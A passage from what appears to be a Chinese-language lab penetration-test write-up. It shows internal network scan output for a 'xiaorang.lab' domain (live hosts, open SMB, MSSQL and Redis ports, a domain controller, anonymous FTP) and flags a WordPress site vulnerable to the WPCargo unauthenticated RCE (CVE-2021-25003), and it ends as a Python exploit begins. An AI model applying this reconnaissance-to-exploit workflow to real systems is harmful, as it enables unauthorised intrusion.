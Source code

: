 ```bash  
(icmp) Target 172.22.2.16     is alive  
(icmp) Target 172.22.2.3      is alive  
(icmp) Target 172.22.2.7      is alive  
(icmp) Target 172.22.2.34     is alive  
[*] Icmp alive hosts len is: 5  
172.22.2.7:22 open  
172.22.2.7:21 open  
172.22.2.18:80 open  
172.22.2.7:80 open  
172.22.2.18:22 open  
172.22.2.7:6379 open  
172.22.2.3:88 open  
172.22.2.18:445 open  
172.22.2.16:1433 open  
172.22.2.34:445 open  
172.22.2.16:445 open  
172.22.2.3:445 open  
172.22.2.34:139 open  
172.22.2.16:139 open  
172.22.2.34:135 open  
172.22.2.3:139 open  
172.22.2.18:139 open  
172.22.2.16:135 open  
172.22.2.3:135 open  
172.22.2.16:80 open  
172.22.2.34:7680 open  
[*] alive ports len is: 21  
start vulscan  
[*] NetInfo   
[*]172.22.2.16  
   [-&gt;]MSSQLSERVER  
   [-&gt;]172.22.2.16  
[*] NetInfo   
[*]172.22.2.3  
   [-&gt;]DC  
   [-&gt;]172.22.2.3  
[*] OsInfo 172.22.2.3   (Windows Server 2016 Datacenter 14393)  
[*] NetBios 172.22.2.34     XIAORANG\CLIENT01               
[*] NetBios 172.22.2.3      [&#43;] DC:DC.xiaorang.lab               Windows Server 2016 Datacenter 14393  
[*] NetInfo   
[*]172.22.2.34  
   [-&gt;]CLIENT01  
   [-&gt;]172.22.2.34  
[*] OsInfo 172.22.2.16  (Windows Server 2016 Datacenter 14393)  
[*] NetBios 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393  
[*] WebTitle http://172.22.2.16        code:404 len:315    title:Not Found  
[*] WebTitle http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS  
[*] NetBios 172.22.2.18     WORKGROUP\UBUNTU-WEB02          
[&#43;] ftp 172.22.2.7:21:anonymous   
   [-&gt;]pub  
[*] WebTitle http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点  
已完成 21/21  
[*] 扫描结束,耗时: 13.155899674s  
```  
扫描到一个`wordpress`站点  
http://172.22.2.18/  
存在[WPCargo &lt; 6.9.0 – 未经身份验证的 RCE | CVE 2021-25003 | 插件漏洞](https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a/)  
```python  
import sys  
import binascii  
```